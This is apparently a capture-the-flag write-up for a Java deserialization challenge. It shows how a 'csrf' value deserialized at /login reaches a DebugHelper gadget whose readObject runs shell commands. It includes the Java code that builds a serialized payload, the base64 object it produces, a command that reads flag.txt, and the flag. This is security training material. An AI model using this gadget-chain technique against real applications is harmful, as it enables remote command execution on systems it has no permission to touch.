





In this challenge, we need to create our custom gadget to exploit the deserialization vulnerability that is found in the application.

First, we can find the `sink` here, inside `HomeIndex.java` file, when trying to access `/login` it deserialize the value of `csrf`.



If we'll look on Burp, we can see `csrf` does contain serialized java object


Okay, know we want to find the gadget.

In this stage, we just scan the classes, and look for something interesting. In our case, I found inside `DebugHelper` the function `run` that execute commands, if the `debug` flag is turned on.

```java
package com.rootme.serial;

import java.io.*;
import java.util.Arrays;

public class DebugHelper implements Serializable {
    private OwnBase64[] command;
    private Boolean debug;
    private String output;

    public DebugHelper(OwnBase64[] command, Boolean debug) {
        this.debug = debug;
        this.command = command;
    }

    public void run() throws IOException {
        if (!debug) {
            output = "The DebugHelper is not in 'debug' mode.";
            return;
        }

        String[] commandStrings = new String[command.length];
        for (int i = 0; i < command.length; i++) {
            commandStrings[i] = command[i].decode();
        }

        Process process = Runtime.getRuntime().exec(commandStrings);
        try (BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()))) {
            StringBuilder result = new StringBuilder();
            String line;
            while ((line = reader.readLine()) != null) {
                result.append(line).append("\n");
            }

            output = result.toString();
        } catch (IOException e) {
            throw new IOException("Error reading process output", e);
        }
    }

    @Override
    public String toString() {
        return "DebugHelper{output='" + output + "'}";
    }

    private final void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        run();
    }
}
```

In addition, we can see the function `run` is being executed when `readObject` is being called, which is the deserialization function, perfect.

So now, we only need to build our `DebugHelper` object, and get our `RCE`.

This will be our `Main.java` code:
```java
package com.rootme.serial;

import java.io.*;
import java.util.Base64;
import java.util.UUID;

import static com.rootme.serial.SerializationUtils.deserialize;
import static com.rootme.serial.SerializationUtils.serialize;
class Main {
    public static void main(String[] args) {
        OwnBase64[] payload = {
                new OwnBase64(Base64.getEncoder().encodeToString("sh".getBytes())),
                new OwnBase64(Base64.getEncoder().encodeToString("-c".getBytes())),
                new OwnBase64(Base64.getEncoder().encodeToString("echo 1337".getBytes()))
        };
        boolean flag = true;
        DebugHelper originalObject = new DebugHelper(payload, flag);

        String serializedObject = serialize(originalObject);

        System.out.println("Serialized object: " + serializedObject);
    }
}
```
As you can see, I did a trick that I sends this payload:
```bash
sh -c "echo 1337"
```
By this way I can easily execute every command, and not needed to adjust the number of arguments.

So, we'll execute it:



And we get this string:
```
rO0ABXNyAB1jb20ucm9vdG1lLnNlcmlhbC5EZWJ1Z0hlbHBlcvPsfvD5ClRKAgADWwAHY29tbWFuZHQAHltMY29tL3Jvb3RtZS9zZXJpYWwvT3duQmFzZTY0O0wABWRlYnVndAATTGphdmEvbGFuZy9Cb29sZWFuO0wABm91dHB1dHQAEkxqYXZhL2xhbmcvU3RyaW5nO3hwdXIAHltMY29tLnJvb3RtZS5zZXJpYWwuT3duQmFzZTY0O74OoqGsN8lVAgAAeHAAAAADc3IAG2NvbS5yb290bWUuc2VyaWFsLk93bkJhc2U2NIS7JPaSQhv5AgABTAAHZW5jb2RlZHEAfgADeHB0AARjMmc9c3EAfgAHdAAETFdNPXNxAH4AB3QADFpXTm9ieUF4TXpNM3NyABFqYXZhLmxhbmcuQm9vbGVhbs0gcoDVnPruAgABWgAFdmFsdWV4cAFw
```

As you can see, the `RCE` worked.



Now, we just adjust the commands and search for the flag:

We know the flag is in the root directory, and we are on `/pp`.
Also, we know the flag is in `flag.txt`, so, we'll execute this
```
cd ..; cat flag.txt;
```
and the payload is:
```java
 OwnBase64[] payload = {
                new OwnBase64(Base64.getEncoder().encodeToString("sh".getBytes())),
                new OwnBase64(Base64.getEncoder().encodeToString("-c".getBytes())),
                new OwnBase64(Base64.getEncoder().encodeToString("cd ..; cat flag.txt".getBytes()))
        };
```

We got the flag!




**Flag:** ***`RM{D3s3ri4lisation_1s_m0re_fun_w1th_Cust0m_G4dgets}`***
